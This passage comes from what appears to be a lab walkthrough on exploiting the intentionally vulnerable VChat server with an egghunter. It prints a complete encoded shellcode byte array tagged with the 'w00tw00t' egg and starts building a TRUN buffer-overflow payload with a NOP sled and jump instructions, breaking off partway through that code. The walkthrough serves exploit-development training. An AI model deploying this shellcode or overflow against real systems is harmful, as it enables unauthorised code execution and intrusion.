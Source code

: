 4. Create the byte array representing the shellcode as done in [exploit5.py](./SourceCode/exploit5.py), remember to prepend the *egg* repeated twice as this is what the EggHunter will use to identify the shellcode and jump to it!
	```
	SHELL = b"w00tw00t"      # The egghunter will look for this, w00t repeated twice.
	SHELL += b"\xb8\x9c\x02\xc9\x42\xda\xce\xd9\x74\x24\xf4\x5b"
	SHELL += b"\x29\xc9\xb1\x53\x31\x43\x12\x03\x43\x12\x83\x5f"
	SHELL += b"\x06\x2b\xb7\xa3\xef\x29\x38\x5b\xf0\x4d\xb0\xbe"
	SHELL += b"\xc1\x4d\xa6\xcb\x72\x7e\xac\x99\x7e\xf5\xe0\x09"
	SHELL += b"\xf4\x7b\x2d\x3e\xbd\x36\x0b\x71\x3e\x6a\x6f\x10"
	SHELL += b"\xbc\x71\xbc\xf2\xfd\xb9\xb1\xf3\x3a\xa7\x38\xa1"
	SHELL += b"\x93\xa3\xef\x55\x97\xfe\x33\xde\xeb\xef\x33\x03"
	SHELL += b"\xbb\x0e\x15\x92\xb7\x48\xb5\x15\x1b\xe1\xfc\x0d"
	SHELL += b"\x78\xcc\xb7\xa6\x4a\xba\x49\x6e\x83\x43\xe5\x4f"
	SHELL += b"\x2b\xb6\xf7\x88\x8c\x29\x82\xe0\xee\xd4\x95\x37"
	SHELL += b"\x8c\x02\x13\xa3\x36\xc0\x83\x0f\xc6\x05\x55\xc4"
	SHELL += b"\xc4\xe2\x11\x82\xc8\xf5\xf6\xb9\xf5\x7e\xf9\x6d"
	SHELL += b"\x7c\xc4\xde\xa9\x24\x9e\x7f\xe8\x80\x71\x7f\xea"
	SHELL += b"\x6a\x2d\x25\x61\x86\x3a\x54\x28\xcf\x8f\x55\xd2"
	SHELL += b"\x0f\x98\xee\xa1\x3d\x07\x45\x2d\x0e\xc0\x43\xaa"
	SHELL += b"\x71\xfb\x34\x24\x8c\x04\x45\x6d\x4b\x50\x15\x05"
	SHELL += b"\x7a\xd9\xfe\xd5\x83\x0c\x6a\xdd\x22\xff\x89\x20"
	SHELL += b"\x94\xaf\x0d\x8a\x7d\xba\x81\xf5\x9e\xc5\x4b\x9e"
	SHELL += b"\x37\x38\x74\xb1\x9b\xb5\x92\xdb\x33\x90\x0d\x73"
	SHELL += b"\xf6\xc7\x85\xe4\x09\x22\xbe\x82\x42\x24\x79\xad"
	SHELL += b"\x52\x62\x2d\x39\xd9\x61\xe9\x58\xde\xaf\x59\x0d"
	SHELL += b"\x49\x25\x08\x7c\xeb\x3a\x01\x16\x88\xa9\xce\xe6"
	SHELL += b"\xc7\xd1\x58\xb1\x80\x24\x91\x57\x3d\x1e\x0b\x45"
	SHELL += b"\xbc\xc6\x74\xcd\x1b\x3b\x7a\xcc\xee\x07\x58\xde"
	SHELL += b"\x36\x87\xe4\x8a\xe6\xde\xb2\x64\x41\x89\x74\xde"
	SHELL += b"\x1b\x66\xdf\xb6\xda\x44\xe0\xc0\xe2\x80\x96\x2c"
	SHELL += b"\x52\x7d\xef\x53\x5b\xe9\xe7\x2c\x81\x89\x08\xe7"
	SHELL += b"\x01\xa9\xea\x2d\x7c\x42\xb3\xa4\x3d\x0f\x44\x13"
	SHELL += b"\x01\x36\xc7\x91\xfa\xcd\xd7\xd0\xff\x8a\x5f\x09"
	SHELL += b"\x72\x82\x35\x2d\x21\xa3\x1f"
	```
5. Generate Shellcode Packet (Python), Due to the structure of the VChat server, our packet that contains the larger shellcode is a bit more complicated. 
      * In some walkthroughs they do not perform any overflow, this is because the original Vulnserver contains memory leaks where the received data is allocated on the heap, and is not de-allocated with a `free()` call.
      * In VChat, the heap allocations are de-allocated, therefore we need to perform an overflow in the **TRUN** buffer as that can hold the shellcode, and prevent the thread that is handling the **TRUN** message from exiting and de-allocating our shellcode.
      * We will perform an overflow as is done in the [TURN exploitation](https://github.com/DaintyJet/VChat_TURN), however we will add two `JMP` instructions and a [NOP Sled](https://unprotect.it/technique/nop-sled/), in this case the NOP Sled allows us to jump to an arbitrary location in the buffer, and fall down into the `JMP` instruction placed before the return address allowing us to easily create an infinite loop.
        * I simply picked an arbitrary location in the buffer to jump to and assembled the instruction as done in `step 1` of the exploitation procedure. 
	```
	PAYLOAD_SHELL = (
    	b'TRUN /.:/' +                        # TRUN command of the server
    	SHELL +                               # Shell code
    	b'\x90' * (2003 - (len(SHELL) + 5)) + # Padding! We have the shellcode, and 5 bytes of the jump we account for
    